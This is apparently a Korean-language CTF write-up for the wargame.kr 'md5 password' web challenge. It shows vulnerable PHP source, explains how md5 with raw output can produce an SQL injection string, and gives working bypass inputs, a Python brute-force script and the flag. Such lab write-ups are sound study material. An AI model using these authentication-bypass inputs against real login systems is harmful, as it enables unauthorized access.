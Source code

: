 ```yaml
---
layout: post
title: md5 password
source: "wargame.kr"
category: Web
rpath: /resource/md5_password
tag: [md5, sql_injection] 
---
```


**Category:** Web

**Source:** wargame.kr

**Points:** 216

**Author:** Jisoon Park(js00n.park)

**Description:** 

> md5('value', true);

## Write-up

password를 찾는 문제이다. 주어진 소스를 먼저 분석해본다.

```php
<?php
 if (isset($_GET['view-source'])) {
  show_source(__FILE__);
  exit();
 }

 if(isset($_POST['ps'])){
  sleep(1);
  mysql_connect("localhost","md5_password","md5_password_pz");
  mysql_select_db("md5_password");
  mysql_query("set names utf8");
  /*
  
  create table admin_password(
   password char(64) unique
  );
  
  */

  include "../lib.php"; // include for auth_code function.
  $key=auth_code("md5 password");
  $ps = mysql_real_escape_string($_POST['ps']);
  $row=@mysql_fetch_array(mysql_query("select * from admin_password where password='".md5($ps,true)."'"));
  if(isset($row[0])){
   echo "hello admin!"."<br />";
   echo "Password : ".$key;
  }else{
   echo "wrong..";
  }
 }
?>
<style>
 input[type=text] {width:200px;}
</style>
<br />
<br />
<form method="post" action="./index.php">
password : <input type="text" name="ps" /><input type="submit" value="login" />
</form>
<div><a href='?view-source'>get source</a></div>
```

전송한 password를 바로 사용하지 않고, md5한 값을 사용하도록 되어 있다.

문제 설명에도 나와있지만, php에서 md5(str, true) 처럼 두번째 인자로 true를 주는게 어떤 의미인가 싶어서 찾아봤더니 digest를 문자열로 주는게 아니라 binary로 돌려주는 옵션이었다.

md5를 적용했을 때 적당한 SQLi 공격 문자열이 생성되는 입력을 찾으면 될것 같다.

여러 입력을 생각해 볼 수 있는데, 일단은 일반적인 **(문자열)'or'(문자열)** 형태를 출력하는 입력을 만들어 보자.

google에 md5 sql injection으로 검색해보면, **129581926211651571912466741651878684928**이란 값을 찾을 수 있다. 이 값을 md5 hash하여 raw byte를 출력해보면 **ٔ0Do#ࠁ'or'8**라는 문자열이 나온다. 

'8'은 True로 해석되므로, 129581926211651571912466741651878684928를 입력하면 곧바로 문제를 해결할 수 있다.

또다른 방법은 =을 두번 사용하도록 하는 것이다. 예를 들어, sql query의 where 절에 **password='abc'='def'**라는 조건이 오면, password='abc' 부분은 false로, 'def'도 false로 해석되어 false=false가 되어 최종적으로는 true가 된다고 한다.

(참고로, mysql query에서, "1"은 True, "a"는 False이다.)

간단하게, **'='** 라는 문자열이 포함된 hash를 만들어내는 입력을 찾아보자.

```python
import md5

i = 0
while True:
  m = md5.new()
  m.update(str(i))
  if "'='" in m.digest():
    print str(i)
    break
  i = i + 1
```

**1839431**이라는 값을 금방 찾을 수 있고, 이를 입력하면 key를 얻을 수 있다.

![img]({{page.rpath|prepend:site.baseurl}}/flag.png)

Flag : **5e49a3fa8ec013bc0acc7393c1301ff87b749565**
